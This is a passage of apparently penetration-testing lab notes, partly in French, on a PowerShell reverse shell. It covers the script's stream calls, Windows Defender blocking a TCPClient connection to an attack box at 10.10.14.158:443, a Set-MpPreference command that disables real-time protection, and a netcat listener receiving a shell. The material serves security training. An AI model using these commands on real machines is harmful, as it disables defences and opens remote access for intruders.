 #### 11. **`$stream.Flush()`**

* **`$stream.Flush()`** : Cette méthode vide le flux, garantissant que toutes les données en attente sont envoyées immédiatement.
* **But** : S'assure que les octets écrits sont réellement envoyés sans délai.

#### 12. **`$client.Close()`**

* **`$client.Close()`** : Cette commande ferme la connexion TCP lorsque la boucle `while` se termine (c'est-à-dire que la connexion a été fermée par l'attaquant ou la machine cible).
* **But** : Terminer proprement la connexion une fois toutes les données échangées.
{% endhint %}

`What happened when we hit enter in command prompt?`

<mark style="color:green;">**Client (target)**</mark>

{% code fullWidth="true" %}
```cmd-session
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```
{% endcode %}

The `Windows Defender antivirus` (`AV`) software stopped the execution of the code. This is working exactly as intended, and from a `defensive` perspective, this is a `win`. From an offensive standpoint, there are some obstacles to overcome if AV is enabled on a system we are trying to connect with. For our purposes, we will want to disable the antivirus through the `Virus & threat protection settings` or by using this command in an administrative PowerShell console (right-click, run as admin):

<mark style="color:green;">**Disable AV**</mark>

```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

Once AV is disabled, attempt to execute the code again.

<mark style="color:green;">**Server (attack box)**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student
```
